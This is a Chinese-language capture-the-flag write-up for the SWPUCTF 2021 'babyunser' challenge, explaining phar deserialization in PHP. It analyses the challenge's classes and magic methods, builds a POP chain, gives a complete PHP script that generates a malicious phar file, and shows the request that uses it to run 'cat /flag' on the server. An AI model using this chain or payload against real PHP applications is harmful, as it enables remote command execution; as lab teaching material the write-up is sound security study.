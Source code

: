 ## 基本信息

* 题目名称： [SWPUCTF 2021 新生赛]babyunser
* 题目链接： http://node5.anna.nssctf.cn:27981
* 考点清单： phar反序列化
* 工具清单： PHP环境，hackbar
* payloads： 无

## 一、看到什么

**题目关键信息列表**：

1. 题目给了两个接口，一个上传文件，一个下载文件。

2. 上传完成之后也会直接给出文件路径。

## 二、想到什么解题思路

1. 直接上传文件，发现上传图片，压缩包，`php`类型的文件都会被转化为`txt`文件进行存储。
2. 尝试着将`upload.php`和`read.php`文件的内容也通过`read.php`进行读取
3. 有多种类，但是没有`unserialize()`函数，考虑`phar`反序列化

## 三、尝试过程和结果记录

**尝试过程：**

1. 上传文本类型和图片类型，以及压缩包类型的文件都会以`txt`的形式进行存储。
2. 尝试使用【查看文件】的功能读取一下题目相关的文件，包括`index.php`，`upload.php`和`read.php`
    - `index.php`就是一个导航页面。
    - `upload.php`将我们上传的文件放在`upload`目录下，并用时间的`md5`值作为文件名，`txt`作为文件类型。
    - `read.php`中实例化对象相关的代码，并且引入了`class.php`。且题目的`php`代码中间还存在前端代码，容易导致`php`代码漏看。
    - `class.php`里面定义了很多很多的类，考察的是反序列化的内容。
    
3. `class.php`里的这些类看起来就非常复杂，我们构造反序列化链的时候，一定要从出口或者是入口找起，这样逻辑性更强。不难看出这里有一些危险函数，出口的位置也还需要确定。我们这里还需要回顾这些魔术方法的触发条件。
    - `__construct`创建类的新对象时,，会自动调用该方法。
    - `__toString()`将对象转换为字符串时自动触发
    - `__invoke()` 将对象作为函数调用时触发
    - `__get($key)` 访问对象中不存在的属性时触发，并将名字作为参数传入
    - `__destruct()` 对象销毁，或者脚本执行完时触发
    - `__call($name,$arg)` 调用一个不存在或不可访问的方法时被触发。

4. 先看一下每个类都有哪些方法和属性。

    - `aa`类，有一个属性`$name`，实例化这个类的时候，会将`$name`值初始化赋值为`aa`，当对象销毁时，会触发`strtolower()`函数，将`$name`当作字符串处理，小写化。注意，这个会触发`__toString()`方法要留个心眼。
    
    - `ff`类，有一个私有属性`$content`和公有属性`$func`，在实例化这个类的时候，会将`$content`初始化为一句话木马，如果这里是突破口，我们就要找到这个`$content`值所在的文件的位置。但是要注意它是私有属性，外面是访问不到的。所以没那么简单。`__get($key)`方法是在`$key`不存在时触发，并且`$key`的属性是`ff`类的`$func`，`$func`作为函数名，`cmd`作为函数的参数。

    - `zz`类，有`$filename`和`$content`两个公有属性，`__construct()`方法是将`$filename`进行赋值。`filter()`方法是对一些文件名关键词进行过滤，看的出来是一些伪协议。`write($var)`方法是将`$filename`属性下的`$var`属性赋值给`$lt`。
    玩`CTF`的最抽象了，它无缘无故这里说一个`//此功能废弃，不想写了`，大概率就是提示你这个要使用。`getFile()`方法是调用`filter()`方法，并读取`$contents`的内容进行返回，为空则提示404，最后还有一个`__toString()`方法，当`zz`这个对象被作为字符串使用时会触发该方法，接受传递的参数`method`和`var`，调用函数`method(var)`，并且将`content`返回。

    - `xx`类，有`$name`和`$arg`两个公有属性，类实例化时会将`$name`和`$arg`分别赋值为`eval`和`phpinfo();`,有查看`php`配置信息的意思了。它还有一个`__call()`函数，当`__call()`在调用一个不存在或不可访问的方法时被触发。就会执行`$name($arg[0]);`默认的是`eval(phpinfo()[0]);`，确实也可以执行。但是想想，题目给那么多参数，肯定没那么好心直接写好。

5. `read.php`里有如下的内容，所以我们可以尝试从这里分析。
    ```php
    $a=new aa();


    $file=new zz($filename);
    $contents=$file->getFile();
    ```
6.  `__toString()`方法使用了两个传入的参数，并且这里有函数执行，能够指向`write($var)`这个有提示的函数，所以这个方法大概率是被调用的。所以往前推一下，`strtolower`方法也要被调用。因此我们先尝试以`aa`这个类为链的头，记为第一步。
    ```
    $a = new aa();
    ```
7. 要使得第二步触发`tostring`方法，则`$a`的`$name`设置为`new zz()`;`__toString()`方法会执行`method(var)`函数，先将`method`设置为`write`，则当前实例化的`zz`类的`filename`属性下会有一个`var`属性，并且赋值给了`$lt`。`ff` 类中有个私有属性`$content`，并且有`__get($key)`，外部访问`$content`属性就会触发这个方法，并且这里也有外部`post`传递的参数，感觉就利用上了。于是这里就把`var`的值赋值为`content`。

    ```
    $a -> name = new zz();
    ```
8. 第三步：我们还要使得`$content`在`zz`这个类里作为属性被访问，所以`$this->filename`要赋值为
`new ff()`; 这样 `__get($key)`就被触发了，且`$key`是`$var`，`$var`的`$func`属性作为函数名称，`POST`传递的`cmd`参数作为函数参数。这个时候，就可以设置危险函数，比如`$func=system,cmd=cat /flag`。但是这个类里面并没有这个函数方法`system()`。

    ```
    $a -> name -> filename = new ff();
    ```

9.第四步：别忘记 `xx`类还有`__call()`方法，当这个类中函数方法不存在时就会触发。所以将`$this->$key`中的`$key`设置为`xx`类，也即`content`设置为`xx`类,`$name`和`$arg`会自动获取为`$func`的值`system`和`cmd`的值`cat /flag`。需要注意的是，`$content`为私有属性，需要类内赋值。

    ```
        public function __construct(){
        $this->content= new xx();
    }
    ```

10.构造`pop`链的时候，可以将类的一些无关方法删除，因为其中的一些量本地可能没有，删除不影响在云端运算的结果。下面的有关`phar`的则是标准操作，用来生成`phar`文件。需要在`php.ini`文件中修改`phar.readonly= Off`或者是终端临时设置`php -d phar.readonly=0 test.php`来允许生成`phar`文件。

    ```php
    <?php
        class aa{
            public $name;
        }

        class ff{
            private $content;
            public $func = 'system';

            public function __construct(){
                $this->content= new xx();
            }

        }

        class zz{
            public $filename;
            public $content;

        }

        class xx{
            public $name;
            public $arg;

        }
        $a = new aa();
        $a -> name = new zz();
        $a -> name -> filename = new ff();
        $phar = new phar('exp.phar');
        $phar -> startBuffering();
        $phar -> setStub("<?php __HALT_COMPILER();?>");
        $phar -> setMetadata($a); 
        $phar -> addFromString("test.txt","test");
        $phar -> stopBuffering();
        ?>
    ```

   ![](images/[SWPUCTF%202021%20新生赛]babyunser-php.png)

11. 上传`phar`文件。并获取文件路径`upload/6d2151e639ecf66fd66d1b8c51c78c12.txt`。
 
12. 在查看文件的接口打开`hackbar`，使用`phar`协议传输`file=phar://upload/6d2151e639ecf66fd66d1b8c51c78c12.txt&method=write&var=content&cmd=cat /flag`，即可得到`flag`。

    ![](images/[SWPUCTF%202021%20新生赛]babyunser-flag.png)


## 四、总结与反思

1. 善于观察，可以查看用户上传文件内容的接口是不是也能查看题目的文件。
2. 题目给出多个类，猜测是构造`pop`链，没有`unserialize()`函数，考虑`phar`反序列化

